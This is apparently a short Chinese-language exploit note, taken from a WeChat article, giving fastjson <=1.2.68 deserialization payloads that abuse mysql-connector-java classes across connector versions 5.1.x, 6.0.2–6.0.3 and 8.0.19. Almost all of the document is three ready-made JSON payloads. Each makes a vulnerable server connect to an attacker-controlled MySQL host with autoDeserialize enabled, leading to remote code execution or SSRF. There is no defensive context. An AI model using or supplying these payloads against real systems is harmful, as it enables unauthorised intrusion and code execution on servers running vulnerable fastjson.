   
来自这篇文章：  
[https://mp.weixin.qq.com/s/I0OdFPnRH_r1yZ04tOB-cw](https://mp.weixin.qq.com/s?__biz=MzUzNDMyNjI3Mg==&mid=2247485232&idx=1&sn=7ad52820b928490ef1f99d99f034634e&scene=21#wechat_redirect)  
  
  
  
fastjson<=1.2.68，mysql-connector-java-5.1.1-5.1.49可SSRF 5.1.11至5.1.48可反序列化   
  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.jdbc.JDBC4Connection",
  "hostToConnectTo": "YOUR_DNSLOG",
  "portToConnectTo": 3306,
  "info": {
    "user": "yso_xxx",
    "password": "pass",
    "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
    "autoDeserialize": "true",
    "NUM_HOSTS": "1"
  },
  "databaseToConnectTo": "dbname",
  "url": ""
}
```  
  
fastjson<=1.2.68，mysql-connector-java-6.0.2-6.0.3可反序列化  
  
```
{
  "@type": "java.lang.AutoCloseable",
  "@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
  "proxy": {
    "connectionString": {
      "url": "jdbc:mysql://YOUR_DNSLOG:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_xxx_calc"
    }
  }
}
```  
  
fastjson<=1.2.68，mysql-connector-java-8.0.19可反序列化，>8.0.19可SSRF  
  
```
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [{
                "host": ""
            }],
            "slaves": [],
            "properties": {
                "host": "YOUR DNSLOG",
                "user": "yso_xxx_calc",
                "dbname": "dbname",
                "password": "pass",
                "queryInterceptors": "com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor",
                "autoDeserialize": "true"
            }
        }
    }
}
```  
```
```
